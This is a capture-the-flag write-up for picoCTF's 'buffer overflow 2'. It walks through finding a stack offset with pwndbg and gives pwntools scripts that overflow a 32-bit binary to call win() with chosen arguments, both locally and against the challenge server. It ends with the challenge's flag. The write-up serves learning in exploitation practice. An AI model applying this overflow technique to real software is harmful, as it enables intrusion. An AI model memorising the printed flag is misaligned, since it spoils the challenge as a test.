

# buffer overflow 2 solution
like in buffer overflow 1,

first, i make the file executable locally using 
``` chmod +x ./vuln```

i run ```file ./vuln``` to get that ```./vuln``` is a ```ELF 32-bit LSB executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, BuildID[sha1]=a429aa852db1511dec3f0143d93e5b1e80e4d845, for GNU/Linux 3.2.0, not stripped```

i then run ```./vuln``` using ghidra and i find that it has a ```win()``` function which will print the flag for me once i overflow into it.

but it's a little different from buffer overflow 1, because it now has two arguments.
```
void win(int param_1,int param_2)

{
  char local_50 [64];
  FILE *local_10;
  
  local_10 = fopen("flag.txt","r");
  if (local_10 != (FILE *)0x0) {
    fgets(local_50,0x40,local_10);
    if ((param_1 == -0x35010ff3) && (param_2 == -0xff20ff3)) {
      printf(local_50);
    }
    return;
  }
  printf("%s %s","Please create \'flag.txt\' in this directory with your","own debugging flag.\n");
                    // WARNING: Subroutine does not return
  exit(0);
}
```

then i use pwndbg to find the offset again:
1. ```gdb ./vuln```, which will enter pwndbg.
2. since ```./vuln``` is a 32 bit executable, i run ```cyclic 100 -n 4``` in pwndbg again.
3. however, when i run this, the program does not crash, as it is not long enough.


4. so i lengthen it to `cyclic 256 -n 4`, then run it by entering `r`. this cyclic sequence is long enough, as it crashes my program. 


5. the program crashes and shows me the address, which in this case is `0x62616164 in ?? ()`, so `0x62616164` is where the program crashed.
6. i will then use `cyclic -l 0x62616164` to find the offset, in this case it is 112.


7. now that i've found the offset, all i need to do is to obtain the address of the `win()` function so that i can overflow into it. however, this is a little different from buffer overflow 1 as the grepping the win function now gives me 4 different addresses.


8. so i disassemble the `win()` function, and i find the addresses `0xcafef00d` and `0xf00df00d`.




9. i can begin crafting the payload from the beginning of the win function, which is `0x08049296`. we need to push things onto the stack in reverse order in order for `win(param_1, param_2)` to work. the return address gets overwritten with `win()` — execution jumps to the win address after `vuln()` returns.

```
from pwn import *

padding = b"A" * 112
win_addr = p32(0x08049296)
ret_after_win = b"BBBB"           # Dummy return address. After win() returns, it still tries to ret, so we need a dummy address

#goes after win() gets called, it expects its args to be on top of the stack
#call win will push ret_after_win, and win() will use [ebp+8] and [ebp+12] as param_1 and param_2

arg1 = p32(0xCAFEF00D)            # param_1
arg2 = p32(0xF00DF00D)            # param_2

# this works because in x86 calling conventions, arguments are pushed onto the stack in reverse order, and the ret statement will pop the return address, setting EIP to win

payload = padding + win_addr + ret_after_win + arg1 + arg2

p = process("./vuln")
p.sendline(payload)
p.interactive()
```
it pushes out my test flag, `picoCTF{test_flag}` which was the same thing i used for buffer overflow 1. this means that it worked!

10. now i can apply the same thing and change the python file to run on the address that picoCTF gave me, and i'll get the flag!
```
from pwn import *

HOST = "saturn.picoctf.net"  # actual host
PORT = 56960                 # actual port

padding = b"A" * 112
win_addr = p32(0x08049296)
ret_after_win = b"BBBB"           # Dummy return address
arg1 = p32(0xCAFEF00D)            # param_1
arg2 = p32(0xF00DF00D)            # param_2

payload = padding + win_addr + ret_after_win + arg1 + arg2

p = remote(HOST, PORT)
p.sendline(payload)
p.interactive()
```
and voila, flag obtained!

IMAGE

flag: `picoCTF{argum3nt5_4_d4yZ_3c04eab0}`
